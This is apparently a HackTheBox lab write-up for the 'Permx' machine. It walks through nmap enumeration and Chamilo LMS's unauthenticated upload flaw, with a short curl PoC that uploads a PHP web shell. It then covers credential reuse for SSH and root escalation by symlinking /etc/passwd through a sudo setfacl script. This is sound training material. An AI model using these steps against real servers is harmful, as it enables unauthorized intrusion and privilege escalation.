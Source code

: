 | Name            | Permx                                                                               |
| --------------- | ----------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                 |
| Difficulty      | Ezz                                                                                 |
| OS              | Linux                                                                               |
| Used techniques | known exploit                                                                       |
| Technologies    | html, php, chamilo, hidden directories                                              |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings, weak perms, symlink, discover credential |
| CVEs            | CVE-2023-34944                                                                      |

## Enumeration


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```


Important points: Ubuntu, hostnamp.
Possible users, enumeration from website: noah, elsie, ralph, mia and john doe.
### Directories

There are no directories out of the web site spidern

/courses.html
/team.html                    
/contact.html             
/index.html                 
/about.html                
/404                     
/testimonial.html            

None of them give us important information. There is no clear attack vector on this site.

### subdomains

**lms.permx.htb php extension**, is an admin panel.

![[Pasted image 20240710073644.png]]


If we try to enumerate directories, we find /documentation and there says that the version is 1.11, but we can not find a exploit for this version. However, we saw that we can still. Apart from that, we discover: */bin, /src/, /app,* ...
 
![[Pasted image 20240710073416.png]]

If we enumerate those directories, we will find config files and files with *.php* extension that can not be retrieved. It is a rabbit hole.

After that, looking for information about this app we found a upload vulnerability in one of the directories: *"Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell."*

## Foothold

Knowing which vulnerability it has, we just need to upload a reverse shell. This is the PoC:

```shell
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
$ curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'

```

After getting shell, we can get access to those *php* files that we couldn't read before. In particular, *app/config* files will give us user account credentials:

![[Pasted image 20240710075118.png]]

If we spray them, we get ssh.



## Privilege Escalation

We can execute sudo for one script.:

![[Pasted image 20240710075214.png]]

There is a section for **setfacl** in gtfobins, however there are restrictions if we try to apply this script for files outside our home directory. One way to bypass them is using *symlinks.

If we create a symlink pointing to /etc/passwd, we can modify the perms in order to get root privileges.

In resume, we can execute on binary (**setfacl**) with root privileges to assign */etc/passwd* with **weak permission**.

```shell
ln -s /etc/passwd file
sudo /opt/acl.sh mtz rw ~/file
vi file
```


![[Pasted image 20240710080348.png]]
#### Developed map


![[permx10.10.11.23.png]]
#### Sources
[[https://starlabs.sg/advisories/23/23-4220/]]
[[https://gtfobins.github.io/gtfobins/setfacl/]]
[[https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/]]
